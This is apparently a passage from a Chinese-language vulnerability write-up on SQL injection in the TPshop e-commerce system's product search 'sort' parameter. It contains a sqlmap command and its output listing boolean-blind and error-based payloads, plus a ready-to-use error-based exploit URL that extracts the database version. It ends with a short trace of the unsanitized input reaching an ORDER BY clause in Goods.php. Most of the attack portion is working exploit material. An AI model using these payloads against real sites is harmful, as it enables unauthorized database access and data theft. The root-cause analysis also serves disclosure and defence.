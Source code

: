 ![TPshop_1.png](/assets/images/2017-12-06/518094709.png)

**Demo：**

```
[Go0s]: ~ 
➜  sqlmap -u "http://192.168.215.136/Home/Goods/search/q/apple/sort/*" --dbms=mysql --batch
...
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: http://192.168.215.136/Home/Goods/search/q/apple/sort/(SELECT (CASE WHEN (9511=9511) THEN 9511 ELSE 9511*(SELECT 9511 FROM INFORMATION_SCHEMA.PLUGINS) END))

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: http://192.168.215.136/Home/Goods/search/q/apple/sort/(SELECT 3618 FROM(SELECT COUNT(*),CONCAT(0x7176627671,(SELECT (ELT(3618=3618,1))),0x71706b7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

可以看到SQLMAP检测出了报错注入和布尔注入，用报错更直观，EXP：

```
http://192.168.215.136//Home/Goods/search/q/apple/sort/(select count(*) from information_schema.columns group by concat(0x3a,0x3a,(select version()),0x3a,0x3a,floor(rand()*2)))
```

![TPshop_2.png](/assets/images/2017-12-06/2913052208.png)

**漏洞触发过程：**

**Goods.php** —> function `search()` —> $sort = I('`sort`', 'goods_id'); $sort_asc = I('`sort_asc`', 'asc'); 排序  —> `order("$sort $sort_asc")` SQL语句调用

